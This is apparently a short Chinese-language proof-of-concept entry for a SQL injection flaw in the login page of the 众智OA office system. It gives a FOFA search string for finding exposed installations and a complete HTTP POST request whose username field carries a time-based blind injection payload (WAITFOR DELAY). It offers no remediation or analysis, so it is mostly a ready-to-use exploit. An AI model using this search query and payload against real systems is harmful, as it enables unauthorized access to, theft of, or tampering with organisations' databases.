 # 众智OA办公系统Login存在SQL注入漏洞

众智OA办公系统Login存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="/Account/Login?ACT=Index"
```

## poc

```javascript
POST /Account/Login?ACT=Index&CLR=Home HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Encoding: gzip, deflate

username=1');WAITFOR+DELAY+'0:0:5'--&password=1&RememberMe=false
```

![image-20241012132503527](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121325595.png)